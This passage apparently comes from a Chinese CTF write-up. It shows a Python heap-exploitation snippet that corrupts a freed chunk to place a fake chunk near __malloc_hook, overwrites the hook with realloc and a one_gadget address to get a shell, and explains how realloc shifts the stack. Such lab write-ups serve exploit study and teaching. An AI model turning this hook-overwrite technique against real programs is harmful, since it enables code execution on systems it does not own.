 ```python
one_gadget = libc_base + 0xf0364
print "one_gadget --->" + hex(one_gadget) + '\n'

malloc_hook = libc_base + libc.sym["__malloc_hook"]
realloc = libc_base + libc.sym["realloc"]
print "malloc_hook --->" + hex(malloc_hook)

print "realloc --->" + hex(realloc)
fake_chunk = malloc_hook - 0x23
print "fake_chunk ---> " + hex(fake_chunk)

add(2,0x68)
free(2)
edit(2,0x8,p64(fake_chunk))

add(3,0x68)
add(4,0x68)

py = ''
#py += 'a'*0x23 + p64(one_gadget) + '\n'
py+= 'a'*11 + p64(one_gadget) + p64(realloc) + '\n'
edit(4,0x40,py)

debug(0x400AD2,0)

add(5,0x68)

p.interactive()
                
```



![upload successful](/images/pasted-107.png)

即malloc的时候跳转到__malloc_hook，再跳转到realloc，再跳到one_gadget。

[2021.10.27补充：如果malloc_hook不满足one_gadget的利用要求，可以利用realloc来微调栈。它的汇编代码 在调用realloc_hook之前 多了很多push和sub指令。

我们覆盖0x13，即19个字节的大小，再往后覆盖就能覆盖到malloc_hook。现在的payload将malloc_hook覆盖为realloc_hook，查看地址可以看到 它在malloc_hook之前8个地址的位置。现在这个被我们覆盖为了one_gadget。]

执行realloc的之后会有一些push，这些push的作用就是使得栈上的偏移发生变化。

